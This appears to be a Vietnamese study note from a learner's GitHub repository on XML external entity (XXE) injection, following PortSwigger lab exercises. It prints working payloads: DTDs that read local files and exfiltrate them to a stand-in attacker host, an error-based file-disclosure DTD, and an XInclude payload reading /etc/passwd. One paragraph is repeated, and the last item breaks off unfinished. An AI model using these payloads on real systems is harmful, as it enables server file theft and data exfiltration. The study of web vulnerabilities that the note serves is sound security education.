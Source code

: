 ## **_1. Định nghĩa_**

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/ab5147eb-1cff-407a-963b-01afca163025)

XML external entity injection (còn được gọi là XXE) là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào quá trình xử lý dữ liệu XML của ứng dụng. Nó thường cho phép kẻ tấn công xem các tệp trên hệ thống tệp máy chủ ứng dụng và tương tác với bất kỳ hệ thống back-end hoặc bên ngoài nào mà chính ứng dụng có thể truy cập.

## **_2. Cách phát sinh_**
Một số ứng dụng sử dụng định dạng XML để truyền dữ liệu giữa trình duyệt và máy chủ. Các ứng dụng thực hiện điều này hầu như luôn sử dụng thư viện tiêu chuẩn hoặc API nền tảng để xử lý dữ liệu XML trên máy chủ. Các lỗ hổng XXE phát sinh do đặc tả XML chứa các tính năng nguy hiểm tiềm tàng khác nhau và trình phân tích cú pháp tiêu chuẩn hỗ trợ các tính năng này ngay cả khi chúng không được ứng dụng sử dụng bình thường.

Một số ứng dụng sử dụng định dạng XML để truyền dữ liệu giữa trình duyệt và máy chủ. Các ứng dụng thực hiện điều này hầu như luôn sử dụng thư viện tiêu chuẩn hoặc API nền tảng để xử lý dữ liệu XML trên máy chủ. Các lỗ hổng XXE phát sinh do đặc tả XML chứa các tính năng nguy hiểm tiềm tàng khác nhau và trình phân tích cú pháp tiêu chuẩn hỗ trợ các tính năng này ngay cả khi chúng không được ứng dụng sử dụng bình thường.

## **_3. How to test_**

## [**_4. Khai thác_**](part1.md)
- Để truy xuất tệp (lab 1)
  - sửa đổi XML theo 2 cách
    - Introduce (or edit) `DOCTYPE` xác định 1 thực thể bên ngoài có chứa đường dẫn tới tệp
    - Chỉnh sửa giá trị dữ liệu trong XML được trả về trong respond để sử dụng thực thể bên ngoài đã xác định

- Để thực hiện các cuộc tấn công SSRF (lab 2)
  - cần xác định thực thể XML bên ngoài bằng cách sử dụng URL mà bạn muốn nhắm mục tiêu và sử dụng thực thể được xác định trong giá trị dữ liệu

## [**_5. Blind XXE_**](part2.md)
- _**Blind XXE**_ là XXEi nhưng không trả về giá trị dữ liệu trong response
- Phát hiện bằng kỹ thuật OOB (lab 3, 4)
  - tương tự như XXE SSRF, URL mục tiêu sẽ là URL mà ta kiểm soát
  - khi bị block, do một số xác thực đầu vào hoặc phân tích cú pháp XML đang sử dụng, hãy sử dụng tham số XML thay thế
    - đầu tiên là khai báo: `<!ENTITY % myparameterentity "my parameter entity value" >`
    - thứ hai là tham chiếu bằng cách sử dụng `%`: `%myparameterentity;`
    - VD: `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`
- Khai thác để lọc dữ liệu OOB (lab 5)
  - file độc hại trích xuất nội dung file đã cho
    ```
    <!ENTITY % file SYSTEM "file:///file_đã_cho">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
    %eval;
    %exfiltrate;
    ```
    - Định nghĩa thực thể `file` chứa nội dung file đã cho: `<!ENTITY % file SYSTEM "file:///file_đã_cho">`
    - Định nghĩa thực thể `eval` chứa thực thể khác gọi là `exfiltrate` (thực thể sẽ được đánh giá bằng cách tạo 1 yêu  cầu HTTP tới máy chủ web tấn công chứa giá trị của `file` trong chuỗi truy vấn URL: `<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">`
    - Sử dụng `eval` thực hiện khái báo `exfiltrate`: `%eval;`
    - Sử dụng `exfiltrate` để giá trị của nó được đánh giá: `%exfiltrate;`
  - Cuối cùng, tấn công gửi XXE: `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>`

- Khai thác để truy xuất dữ liệu qua các thông báo lỗi (lab 6)
  ```
  <!ENTITY % file SYSTEM "file:///file_đã_cho">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
  %eval;
  %error;
  ```
  - Định nghĩa `file` chứa nội dung của file đã cho: `<!ENTITY % file SYSTEM "file:///file_đã_cho">`
  - Định nghĩa `eval` chứa `error` (được đánh giá bằng cách tải 1 tệp không tồn tại có chứa giá trị của `file`): `<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">`
    
- lab 7 EXPERT

## [**_6. Tìm bề mặt tấn công ẩn để thực hiện XXEi_**](part3.md)
- Tấn công XInclude (lab 8)
  - XInclude là một phần của đặc tả XML cho phép xây dựng một tài liệu XML từ các tài liệu phụ. Bạn có thể thực hiện một cuộc tấn công XInclude bên trong bất kỳ giá trị dữ liệu nào trong tài liệu XML, do đó cuộc tấn công có thể được thực hiện trong các tình huống mà bạn chỉ kiểm soát một mục dữ liệu duy nhất được đặt vào tài liệu XML phía máy chủ.
    
  - tham chiếu tên và cung cấp đường dẫn đến tệp muốn đưa vào:

      ```
      <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/></foo>
      ```
      
- Thông qua upload file (lab 9)
  - Một số ứng dụng cho phép người dùng tải lên các tệp sau đó được xử lý phía máy chủ. Một số định dạng tệp phổ biến sử dụng XML hoặc chứa các thành phần phụ XML. Ví dụ về các định dạng dựa trên XML là các định dạng tài liệu văn phòng như DOCX và các định dạng hình ảnh như SVG.
  - Ví dụ: một ứng dụng có thể cho phép người dùng tải hình ảnh lên và xử lý hoặc xác thực những hình ảnh này trên máy chủ sau khi chúng được tải lên. Ngay cả khi ứng dụng mong muốn nhận được định dạng như PNG hoặc JPEG, thư viện xử lý hình ảnh đang được sử dụng có thể hỗ trợ hình ảnh SVG. Vì định dạng SVG sử dụng XML nên kẻ tấn công có thể gửi hình ảnh SVG độc hại và do đó tiếp cận bề mặt tấn công ẩn để tìm lỗ hổng XXE.

- Thông qua chỉnh sửa Content-type
